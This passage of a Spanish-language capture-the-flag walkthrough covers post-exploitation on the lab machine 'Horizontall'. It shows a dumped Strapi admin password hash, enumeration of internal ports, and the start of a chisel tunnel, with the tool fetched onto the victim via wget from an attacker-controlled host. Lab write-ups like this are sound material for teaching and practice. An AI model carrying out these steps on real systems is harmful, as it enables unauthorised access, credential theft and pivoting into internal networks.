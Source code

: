 ```
6 rows in set (0.00 sec)

mysql> select username,password from strapi_administrator;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2a$10$Ad/YtYwnQ9H8acqSFbf3yOvrelFhmcj9yW0u0alLAScfRb1C1s1NG |
+----------+--------------------------------------------------------------+
1 row in set (0.00 sec)
```

Vamos a `ver` los `servicios` internos

```
strapi@horizontall:/tmp/scripts$ netstat -nat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN     
tcp        0      0 10.129.95.96:53600      10.10.16.8:443          ESTABLISHED
tcp        0    138 10.129.95.96:53612      10.10.16.8:443          ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN    
```

El que más me llama la atención es el que se aloja en el `puerto 8000`

```
strapi@horizontall:/tmp/scripts$ curl http://127.0.0.1
```

Al hacerle un `curl`, vemos que está corriendo `Laravel v8 (PHP v7.4.18)`, al hacer una búsqueda son `searchsploit` nos encontramos un `exploit` para esta version de Laravel. Mediante `remote port forwarding` vamos a traernos el `puerto 8000` de la `máquina víctima` a `nuestro equipo`. Lo primero que debemos hacer es descargarnos este release [https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_darwin_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_darwin_amd64.gz)

La descomprimimos

```
# gunzip chisel_1.9.1_darwin_amd64.gz
```

Nos ponemos en `escucha` con python en el `mismo directorio` donde se encuentra el archivo de chisel

```
# python -m http.server 80
```

Nos `descargamos` el `archivo` en la máquina víctima

```
# wget http://10.10.16.8/chisel_1.9.1_darwin_amd64.gz`
```
